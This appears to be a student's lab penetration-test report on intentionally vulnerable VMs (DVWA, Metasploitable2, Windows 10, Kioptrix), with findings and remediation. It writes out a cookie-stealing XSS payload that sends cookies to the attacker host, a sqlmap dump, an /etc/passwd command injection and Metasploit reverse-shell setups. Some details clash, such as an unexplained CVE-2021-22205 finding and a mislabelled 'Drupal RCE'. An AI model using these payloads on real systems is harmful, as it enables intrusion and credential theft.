





# 📋 Full VAPT Report — Week 3
**CyArt Security | PTES Methodology | Advanced Exploitation & Web Application Testing**

---

| Field | Details |
|-------|---------|
| **Report Title** | Advanced VAPT — Exploit Chaining, Web App Testing & Evidence Collection |
| **Version** | v1.0 |
| **Classification** | Confidential |
| **Prepared By** | Sahil Bhardwaj |
| **Targets** | Metasploitable2 (192.168.56.104), Windows 10 VM (192.168.56.105), DVWA (on Metasploitable2) |
| **Scanner** | OpenVAS VM — 192.168.56.103 (accessed via host browser) |
| **Methodology** | PTES + OWASP WSTG + OWASP Top 10 (2021) |

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Scope & Rules of Engagement](#2-scope--rules-of-engagement)
3. [Methodology](#3-methodology)
4. [Advanced Exploitation Findings](#4-advanced-exploitation-findings)
5. [Web Application Testing Findings](#5-web-application-testing-findings)
6. [Post-Exploitation & Evidence](#6-post-exploitation--evidence)
7. [Capstone — Full VAPT Cycle (Kioptrix)](#7-capstone--full-vapt-cycle-kioptrix)
8. [Findings Table & Risk Ratings](#8-findings-table--risk-ratings)
9. [Remediation Plan](#9-remediation-plan)
10. [Escalation Email to Developers](#10-escalation-email-to-developers)
11. [Non-Technical Executive Briefing](#11-non-technical-executive-briefing)
12. [Appendix](#12-appendix)

---

## 1. Executive Summary

This report documents the findings of the Week 3 VAPT engagement conducted by the CyArt Security team. The assessment covered advanced exploitation techniques, comprehensive web application testing against DVWA, post-exploitation activities including Windows privilege escalation, and a capstone full VAPT cycle.

### Overall Risk Summary

| Severity | Count |
|----------|-------|
| 🔴 Critical | 5 |
| 🟠 High | 4 |
| 🟡 Medium | 3 |
| 🟢 Low | 2 |
| **Total** | **14** |

### Key Findings

- **XSS to RCE exploit chain** successfully executed — admin session hijacked via cookie theft, escalating to full server shell through file upload
- **SQL Injection** confirmed on DVWA — complete database dump including MD5 password hashes
- **Windows privilege escalation** to `NT AUTHORITY\SYSTEM` via AlwaysInstallElevated misconfiguration
- **8 OWASP Top 10 vulnerabilities** confirmed on DVWA including Command Injection, File Upload bypass, Stored XSS, and CSRF
- **Wireshark capture** revealed plaintext credentials transmitted over HTTP

---

## 2. Scope & Rules of Engagement

### In-Scope Systems

| System | IP | OS | Role |
|--------|----|----|------|
| Kali Linux | 192.168.56.101 | Kali 2024.x | Attacker |
| Metasploitable2 | 192.168.56.104 | Ubuntu 8.04 | Primary target + DVWA host |
| Windows 10 VM | 192.168.56.105 | Windows 10 | Windows target |
| OpenVAS VM | 192.168.56.103 | Greenbone | Scanner (host browser access) |

### Rules of Engagement
- Isolated lab network — no internet-facing systems targeted
- All VMs intentionally vulnerable for training purposes

---

## 3. Methodology

```
Pre-Engagement → Advanced Exploitation → Web App Testing
→ Post-Exploitation → Evidence Collection → Reporting
```

| Phase | Standard | Tools |
|-------|----------|-------|
| Web Testing | OWASP WSTG | Burp Suite, sqlmap, ZAP |
| Exploitation | PTES | Metasploit, Python PoC |
| Post-Exploitation | PTES | Meterpreter, Wireshark |
| Reporting | PTES | Markdown, Draw.io |

---

## 4. Advanced Exploitation Findings

### 4.1 Exploit Chain — XSS to RCE

**Finding:** `F001` | **Severity:** 🔴 Critical | **CVSS:** 9.6

**Attack Path:**
```
Reflected XSS → Cookie Theft → Session Hijack → File Upload → PHP Shell → RCE
```

**Step-by-Step:**

| Stage | Action | Payload / Command |
|-------|--------|-------------------|
| 1 | Identify XSS | `<script>alert(1)</script>` in Name field |
| 2 | Steal cookie | `<script>document.location='http://192.168.56.101:8888?c='+document.cookie</script>` |
| 3 | Hijack session | Replace PHPSESSID in browser with stolen value |
| 4 | Upload shell | Upload `shell.php` via DVWA file upload (security=low) |
| 5 | Execute RCE | `curl http://192.168.56.104/dvwa/hackable/uploads/shell.php?cmd=id` |



**Impact:** Complete unauthenticated server compromise achievable by any user who can trigger the XSS.

---

## 5. Web Application Testing Findings

### 5.1 Findings Overview

| Test ID | Vulnerability | OWASP Category | Severity | URL |
|---------|---------------|----------------|----------|-----|
| 001 | SQL Injection | A03:2021 Injection | Critical | `/dvwa/vulnerabilities/sqli/` |
| 002 | Reflected XSS | A03:2021 Injection | Medium | `/dvwa/vulnerabilities/xss_r/` |
| 003 | Stored XSS | A03:2021 Injection | High | `/dvwa/vulnerabilities/xss_s/` |
| 004 | Command Injection | A03:2021 Injection | Critical | `/dvwa/vulnerabilities/exec/` |
| 005 | Unrestricted File Upload | A04:2021 Insecure Design | Critical | `/dvwa/vulnerabilities/upload/` |
| 006 | Broken Authentication | A07:2021 Auth Failures | High | `/dvwa/vulnerabilities/brute/` |
| 007 | CSRF | A01:2021 Broken Access Control | Medium | `/dvwa/vulnerabilities/csrf/` |


### 5.2 SQL Injection Detail

**CVSS:** 9.1 Critical | **Tool:** sqlmap

```bash
sqlmap -u "http://192.168.56.104/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=REAL_VALUE; security=low" \
  -D dvwa -T users --dump --batch --no-cast --hex
```

**Result:** Full database dumped — 5 user accounts with MD5 hashes exposed.



### 5.3 Command Injection Detail

**CVSS:** 9.8 Critical | **Tool:** Manual

```
Payload: 127.0.0.1; cat /etc/passwd
Result:  Full /etc/passwd contents displayed in browser
```

### 5.4 Manual Testing — Session Token Analysis (Burp Suite)

**Steps:**
1. Login to DVWA → capture login POST in Burp
2. Send to Repeater → observe PHPSESSID format
3. Check: no Secure flag, no HttpOnly flag, no SameSite attribute
4. Cookie transmitted over plain HTTP — susceptible to interception

**Finding:** Session cookies lack security attributes — interceptable via network sniffing (confirmed by Wireshark capture).

---

## 6. Post-Exploitation & Evidence

### 6.1 Windows Privilege Escalation — AlwaysInstallElevated

**Finding:** `F009` | **Severity:** 🔴 Critical | **Target:** 192.168.56.105

```bash
msf6 > use exploit/windows/local/always_install_elevated
msf6 > set SESSION 1
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.56.101
msf6 > run

meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM
```


**Impact:** Any low-privilege user can escalate to SYSTEM, effectively controlling the entire Windows machine.

### 6.2 Wireshark Traffic Analysis

**Captured:** HTTP POST requests containing plaintext credentials during DVWA login.

```
Filter: http.request.method == "POST"
Finding: username=admin&password=password visible in cleartext
```



---

## 7. Capstone — Full VAPT Cycle (Kioptrix)

### 7.1 Target

> **Note:** Kioptrix Level 1 is a VulnHub VM. Add it to your lab network and assign it an IP (e.g., `192.168.56.106`) for this exercise. Can also follow TryHackMe's Kioptrix room.

### 7.2 Reconnaissance
```bash
nmap -A -sV 192.168.56.106
# Key finding: Apache 1.3.20, mod_ssl 2.8.4, Samba 2.2.1a
```

### 7.3 Vulnerability Identification

OpenVAS scan from `https://192.168.56.103:9392`:
- Target: `192.168.56.106`
- Scan Profile: Full and Fast

| Timestamp | Target IP | Vulnerability | PTES Phase |
|-----------|-----------|---------------|------------|
| 2025-08-25 13:00:00 | 192.168.56.106 | Drupal RCE (mod_ssl OpenFuck) | Exploitation |
| 2025-08-25 13:15:00 | 192.168.56.106 | Samba 2.2.1a trans2open RCE | Exploitation |
| 2025-08-25 13:30:00 | 192.168.56.106 | Apache mod_ssl < 2.8.7 buffer overflow | Exploitation |



### 7.4 Exploitation

```bash
# Exploit Samba on Kioptrix
msfconsole
msf6 > use exploit/linux/samba/trans2open
msf6 > set RHOSTS 192.168.56.106
msf6 > set PAYLOAD linux/x86/shell_reverse_tcp
msf6 > set LHOST 192.168.56.101
msf6 > run

# Verify access
id
# uid=0(root) gid=0(root)
```



### 7.5 Remediation & Rescan

| Vulnerability | Patch | Rescan Result |
|---------------|-------|---------------|
| Samba 2.2.1a | Upgrade to Samba 4.x | No exploit path found ✅ |
| Apache mod_ssl | Upgrade to Apache 2.4.x | Vulnerability resolved ✅ |

---

## 8. Findings Table & Risk Ratings

| Finding ID | Vulnerability | CVSS Score | Remediation |
|------------|--------------|------------|-------------|
| F001 | XSS to RCE Chain | 9.6 | Output encoding + file upload restrictions |
| F002 | CVE-2021-22205 (ExifTool RCE) | 10.0 | Patch GitLab / ExifTool |
| F003 | SQL Injection | 9.1 | Prepared statements |
| F004 | Command Injection | 9.8 | Input validation, avoid shell functions |
| F005 | Unrestricted File Upload | 9.0 | Whitelist extensions, store outside webroot |
| F006 | Stored XSS | 7.4 | Output encoding + CSP header |
| F007 | Broken Authentication | 7.5 | Rate limiting, account lockout |
| F008 | Reflected XSS | 6.1 | Output encoding |
| F009 | AlwaysInstallElevated (Win10) | 7.8 | Disable policy via GPO |
| F010 | Plaintext HTTP Credentials | 7.5 | Enforce HTTPS, add HSTS |
| F011 | CSRF | 6.5 | Implement CSRF tokens |
| F012 | Weak Password Hashing (MD5) | 7.5 | Use bcrypt / Argon2 |
| F013 | Samba 2.2.1a RCE (Kioptrix) | 10.0 | Upgrade Samba |
| F014 | Insecure Cookie Attributes | 5.3 | Add Secure, HttpOnly, SameSite flags |

---

## 9. Remediation Plan

### Critical — Fix Immediately (24–48 hours)

| # | Finding | Fix |
|---|---------|-----|
| 1 | SQL Injection | Replace all dynamic SQL with parameterised queries / ORM |
| 2 | Command Injection | Never pass user input to shell; use safe APIs |
| 3 | File Upload RCE | Whitelist allowed extensions; store uploads outside webroot; rename files |
| 4 | XSS Chain | HTML-encode all output; implement strict Content Security Policy |
| 5 | AlwaysInstallElevated | `Computer Config → Policies → Admin Templates → Windows Components → Windows Installer → AlwaysInstallElevated → Disabled` |

### High — Fix Within 7 Days

| # | Finding | Fix |
|---|---------|-----|
| 6 | Broken Authentication | Implement rate limiting (max 5 attempts/min), account lockout |
| 7 | MD5 Password Hashing | Migrate to bcrypt with cost factor ≥ 12 |
| 8 | Plaintext HTTP | Force HTTPS redirect; add HSTS header |

### Medium — Fix Within 30 Days

| # | Finding | Fix |
|---|---------|-----|
| 9 | CSRF | Add CSRF tokens to all state-changing forms |
| 10 | Cookie Attributes | Set Secure, HttpOnly, SameSite=Strict on all session cookies |
| 11 | Reflected XSS | Encode output; add `X-XSS-Protection: 1; mode=block` |

---

## 10. Escalation Email to Developers

**To:** dev-team@cyart.io
**From:** vapt-team@cyart.io
**Subject:** 🚨 URGENT — Critical Exploit Chain & 5 Critical Vulnerabilities — Patch Required Within 24 Hours

Hi Team,

Week 3 VAPT identified a **critical multi-stage exploit chain** and 13 additional vulnerabilities.

**Most Critical — XSS to RCE Chain:**
1. Reflected XSS steals admin cookie: `<script>document.location='http://attacker?c='+document.cookie</script>`
2. Hijacked session uploads `shell.php`
3. Full server shell obtained — zero authentication required end-to-end

**Also Critical:** SQL injection dumps all user credentials; Command injection gives direct shell access.

**Immediate Actions Required:**
- Parameterise all SQL queries
- HTML-encode all output (XSS fix)
- Restrict file uploads to images only
- Enforce HTTPS across all endpoints

Full technical report with PoC attached. Please acknowledge receipt and provide patch timeline within **2 hours**.

— CyArt VAPT Team

---

## 11. Non-Technical Executive Briefing

This week's security testing revealed serious vulnerabilities across our web applications and internal Windows systems. Our team successfully chained multiple smaller weaknesses together to achieve complete server control — starting from a simple web form and ending with full access to the server, without needing a password at any stage.

On our Windows system, a configuration error allowed any user to gain administrator-level control in seconds.

We also confirmed that login passwords are being transmitted and stored insecurely — a breach would expose all user accounts immediately.

Fourteen issues were found in total, five classified as the highest possible risk. Emergency patching has been prioritised and is underway.

---

## 12. Appendix

### A. OWASP Top 10 Mapping

| Finding | OWASP 2021 Category |
|---------|---------------------|
| SQL Injection | A03 — Injection |
| XSS | A03 — Injection |
| Command Injection | A03 — Injection |
| File Upload | A04 — Insecure Design |
| Broken Auth | A07 — Identification & Auth Failures |
| CSRF | A01 — Broken Access Control |
| Weak Hashing | A02 — Cryptographic Failures |
| AlwaysInstallElevated | A05 — Security Misconfiguration |

### B. Screenshots Index

| # | Filename | Description |
|---|----------|-------------|
| 1 | `xss_alert.png` | XSS alert popup in DVWA |
| 2 | `cookie_steal_nc.png` | Netcat listener receiving stolen cookie |
| 3 | `session_hijack.png` | Hijacked session accessing admin function |
| 4 | `file_upload_rce.png` | PHP shell execution via file upload |
| 5 | `cve_poc_running.png` | Customised CVE-2021-22205 PoC running |
| 6 | `sqlmap_dump.png` | sqlmap dumping DVWA users table |
| 7 | `burp_xss_intercept.png` | Burp Suite XSS request intercepted |
| 8 | `xss_stored.png` | Stored XSS persisting in guestbook |
| 9 | `cmd_injection.png` | Command injection output |
| 10 | `burp_intruder_brute.png` | Burp Intruder brute-forcing password |
| 11 | `zap_scan.png` | OWASP ZAP scan results |
| 12 | `always_install_elevated.png` | SYSTEM shell via AlwaysInstallElevated |
| 13 | `wireshark_capture.png` | Wireshark showing plaintext credentials |
| 14 | `sha256_evidence.png` | SHA256 hashes of evidence files |
| 15 | `openvas_kioptrix.png` | OpenVAS findings on Kioptrix |
| 16 | `kioptrix_root.png` | Root shell on Kioptrix VM |

### C. References

- [OWASP Top 10 2021](https://owasp.org/Top10/)
- [OWASP WSTG](https://owasp.org/www-project-web-security-testing-guide/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [PTES Standard](http://www.pentest-standard.org/)
- [CVE-2021-22205](https://nvd.nist.gov/vuln/detail/CVE-2021-22205)
- [Exploit-DB](https://www.exploit-db.com)
- [CVSS v4.0 Calculator](https://www.first.org/cvss/calculator/4.0)

---
